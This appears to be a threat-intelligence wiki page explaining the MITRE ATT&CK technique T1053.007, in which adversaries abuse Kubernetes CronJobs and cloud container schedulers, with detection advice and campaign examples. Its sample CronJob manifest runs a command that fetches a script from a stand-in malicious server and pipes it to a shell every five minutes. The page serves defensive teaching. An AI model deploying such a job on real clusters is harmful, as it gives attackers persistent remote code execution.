 ```yaml
---
description: Container Orchestration Job [T1053.007]
icon: lock
---
```


# Container Orchestration Job

## Information

* Name: Container Orchestration Job
* ID: T1053.007
* Tactics: [TA0002](../../ta0002/), [TA0003](../), [TA0004](../../ta0004/)
* Technique: [T1053](./)

## Introduction

Container Orchestration Job (T1053.007) is a sub-technique within the Scheduled Task/Job (T1053) technique category of the MITRE ATT\&CK framework. This sub-technique specifically involves adversaries leveraging container orchestration platforms, such as Kubernetes, Docker Swarm, Amazon ECS, or Azure Container Instances, to schedule and execute malicious jobs or tasks. Attackers exploit legitimate job scheduling functionalities provided by these platforms to execute unauthorized commands, scripts, or binaries, thus achieving persistence, lateral movement, privilege escalation, or command and control (C2) communications.

## Deep Dive Into Technique

Adversaries utilize container orchestration systems' built-in scheduling capabilities to execute malicious tasks. Container orchestrators such as Kubernetes and Docker Swarm periodically execute scheduled tasks or jobs, defined through YAML or JSON configuration files, to automate routine operations. Attackers exploit this functionality by injecting or modifying these scheduled jobs to run malicious payloads.

Technical execution details often include:

* **Kubernetes CronJobs**:
  * Attackers create or modify CronJob resources to execute scripts or commands at scheduled intervals.
  * YAML manifests specify the container image, commands, and execution schedules (cron syntax).
  *   Example Kubernetes manifest:

      ```yaml
      apiVersion: batch/v1
      kind: CronJob
      metadata:
        name: malicious-job
        namespace: default
      spec:
        schedule: "*/5 * * * *"
        jobTemplate:
          spec:
            template:
              spec:
                containers:
                  - name: malicious-container
                    image: attacker-controlled-image
                    command:
                      [
                        "/bin/sh",
                        "-c",
                        "curl http://malicious-server/payload.sh | sh",
                      ]
                restartPolicy: OnFailure
      ```
* **Docker Swarm Scheduled Tasks**:
  * Docker Swarm does not natively support scheduling jobs; however, attackers might leverage external schedulers or cron containers to achieve similar functionality.
  * Attackers deploy malicious containers that periodically execute commands or scripts to maintain persistence or exfiltrate data.
* **Cloud Container Platforms (Amazon ECS, Azure Container Instances)**:
  * Attackers schedule tasks using cloud-native scheduling tools (e.g., AWS CloudWatch Events, Azure Logic Apps) to trigger malicious container executions.
  * Attackers manipulate task definitions or event triggers to execute containers containing malicious payloads.

Common mechanisms attackers use include:

* Creating new scheduled jobs to establish persistence or maintain a foothold.
* Modifying existing legitimate jobs to include malicious commands or payloads.
* Using orchestrator APIs or compromised credentials to deploy malicious scheduled tasks.
* Leveraging scripts or binaries within containers to perform reconnaissance, lateral movement, or data exfiltration.

## When this Technique is Usually Used

Adversaries typically employ Container Orchestration Jobs during various stages of the attack lifecycle, including:

* **Persistence**:
  * Scheduling malicious tasks that periodically re-establish access if initial footholds are removed.
  * Ensuring continued presence within compromised environments through regular execution of malicious payloads.
* **Execution**:
  * Utilizing scheduled tasks to execute payloads, scripts, or commands on containerized workloads.
  * Automating command execution within compromised systems at predetermined intervals.
* **Privilege Escalation and Lateral Movement**:
  * Exploiting orchestrator privileges or misconfigurations to schedule tasks in higher-privileged namespaces or clusters.
  * Moving laterally by scheduling tasks on other nodes or clusters within the orchestrated environment.
* **Command and Control (C2) Communications**:
  * Scheduling containers that periodically communicate with attacker-controlled infrastructure to receive commands or exfiltrate data.
* **Data Exfiltration**:
  * Automating data collection and exfiltration through scheduled container tasks.

## How this Technique is Usually Detected

Detection mechanisms for Container Orchestration Jobs typically include:

* **Monitoring and Logging**:
  * Enabling and centrally collecting logs from container orchestration platforms (e.g., Kubernetes API server audit logs, Docker daemon logs).
  * Monitoring scheduled job creation, modification, or deletion events closely.
* **Behavioral Analytics**:
  * Implementing anomaly detection solutions to identify unusual scheduled job creation or execution patterns.
  * Detecting unusual container images or commands used in scheduled tasks.
* **Security Tools and Platforms**:
  * Container security solutions (e.g., Aqua Security, Sysdig, Prisma Cloud) capable of detecting suspicious container images, runtime behaviors, and orchestrator API activities.
  * SIEM platforms (Splunk, ELK, QRadar) configured to alert on suspicious orchestration events or API calls.
* **Indicators of Compromise (IoCs)**:
  * Unexpected CronJob or Job resources appearing in Kubernetes clusters.
  * Scheduled tasks referencing unknown or untrusted container images.
  * Unusual outbound network connections originating from scheduled containers.
  * Logs indicating unauthorized API calls or modifications to orchestrator configurations.

## Why it is Important to Detect This Technique

Early detection of Container Orchestration Job misuse is critical due to the following impacts:

* **Persistent Access**:
  * Attackers can maintain long-term persistence within containerized environments, making remediation challenging without detection.
* **Data Exfiltration**:
  * Scheduled malicious tasks can regularly exfiltrate sensitive data, intellectual property, or customer information, leading to significant financial and reputational damage.
* **Resource Abuse and Cost Implications**:
  * Attackers may use scheduled containers for cryptocurrency mining or other resource-intensive tasks, causing increased infrastructure costs.
* **Privilege Escalation and Lateral Movement**:
  * Misuse of orchestration platforms can allow attackers to escalate privileges or move laterally across container clusters, significantly expanding the attack surface.
* **Operational Disruption**:
  * Malicious scheduled tasks can disrupt legitimate workloads, degrade performance, or cause service outages, impacting business continuity.

Detecting this technique early allows organizations to rapidly contain incidents, minimize damage, and prevent attackers from achieving their objectives.

## Examples

Real-world examples and scenarios involving Container Orchestration Jobs include:

* **TeamTNT Attacks**:
  * Attackers leveraging Kubernetes CronJobs to deploy cryptocurrency mining containers.
  * Scheduled tasks periodically pulling malicious container images from attacker-controlled registries to mine cryptocurrencies, leading to increased cloud infrastructure costs and degraded performance.
* **Hildegard Malware**:
  * Hildegard malware targeted Kubernetes clusters, creating CronJobs to execute malicious scripts.
  * Scheduled tasks downloaded and ran malicious payloads, enabling attackers to establish persistence, conduct lateral movement, and exfiltrate data.
* **Kinsing Malware Campaign**:
  * Attackers used compromised Kubernetes clusters to schedule malicious jobs for cryptocurrency mining.
  * CronJobs executed periodically, ensuring persistent access and continuous resource abuse.
* **Azure Container Instance (ACI) Exploitation**:
  * Adversaries compromised Azure Container Instances, scheduling malicious containers that executed scripts to exfiltrate sensitive data to external servers.
  * Attackers leveraged Azure Logic Apps or Azure Automation to trigger scheduled malicious containers.

In these scenarios, attackers leveraged scheduled container tasks to maintain persistence, execute malicious commands, escalate privileges, and exfiltrate data, demonstrating the critical importance of monitoring and detecting Container Orchestration Job abuses.
